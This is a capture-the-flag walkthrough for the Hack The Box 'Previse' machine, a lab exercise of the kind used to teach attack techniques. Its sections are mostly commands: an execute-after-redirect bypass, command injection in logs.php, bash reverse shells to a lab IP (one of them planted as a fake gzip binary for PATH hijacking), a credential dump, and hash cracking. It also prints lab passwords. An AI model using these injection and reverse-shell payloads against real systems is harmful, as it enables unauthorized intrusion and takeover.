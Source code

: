 # HTB: Previse

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.104
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.11.104
```

---

## 🕵️ EAR Vulnerability (Execute After Redirect)
- Intercept `HTTP 302` redirect and change it to `200 OK` in Burp Suite.
- Burp ➝ Proxy ➝ Intercept Server Responses ➝ Enable ➝ Intercept Response ➝ Modify `302 Found` to `200 OK`

---

## 👤 Account Creation (via EAR Bypass)
- Navigate to `/accounts.php` using modified redirect bypass.
- Fill out user registration ➝ Login normally after creation.

---

## 📦 Download Site Source
- Navigate to `/files.php` and download `siteBackup.zip`
- Unzip to reveal all PHP source files.

---

## 🧪 Command Injection in [logs.php](HTTP)
### Without Source
- Interact with `file_logs.php`
- Modify POST request:
```bash
delim=comma;ping+-c+1+10.10.14.6
```

### With Source
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

---

## ⚙️ Gaining Reverse Shell (as www-data)
```bash
# Listener
nc -lnvp 443

# Burp ➝ Intercept POST ➝ Modify
POST /logs.php

delim=comma;bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' #
```

### Shell Upgrade
```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
TERM=screen
```

---

## 🔍 Enumeration (as www-data)
```bash
cat /var/www/html/config.php
mysql -u root -p'mySQL_p@ssw0rd!:)'
```

### Dump User Hash
```sql
select * from accounts;
```

### Crack Hash
```bash
hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔐 Shell as m4lwhere (via SSH)
```bash
ssh m4lwhere@10.10.11.104
# password: ilovecody112235!
```

---

## 🔼 Root Escalation — Path Hijack
### Sudo Priv
```bash
sudo -l
```
```bash
(ALL) NOPASSWD: /opt/scripts/access_backup.sh
```

### Create Malicious gzip
```bash
cd /dev/shm
echo '#!/bin/bash' > gzip
echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' >> gzip
chmod +x gzip
export PATH=/dev/shm:$PATH

# Listener:
nc -lnvp 443

# Trigger
sudo /opt/scripts/access_backup.sh
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📚 Resources
- EAR Ref: OWASP Execute After Redirect
- SQLi INSERT Exploit: George Koniaris video
- Beyond Root:
  - Misconfigured `/etc/sudoers`
  - `secure_path` omitted ➝ Path Hijack vulnerability